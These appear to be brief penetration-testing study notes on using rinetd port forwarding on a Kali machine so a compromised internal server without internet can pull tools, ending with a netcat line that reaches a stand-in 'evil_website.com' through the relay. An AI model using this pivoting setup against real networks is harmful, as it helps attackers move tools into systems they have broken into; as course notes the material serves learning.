

01- Port forwarding
Context
- we controlled internal server with no internet connectivity
- we want to transfer tools
- attacketr machine has connectivity

rinetd
- start web service in kali
- sudo nano /etc/rinted.conf
- 0.0.0.0 80 $url:80
- // his rule states that all traffic received on port 80 of our Kali Linux server, listening on all interfaces (0.0.0.0), regardless of destination address, will be redirected to $url::80.
- sudo service rinetd restart
- check port 80 is lkistening
- in linux machine
- nc $kali 80 => <evil_website.com>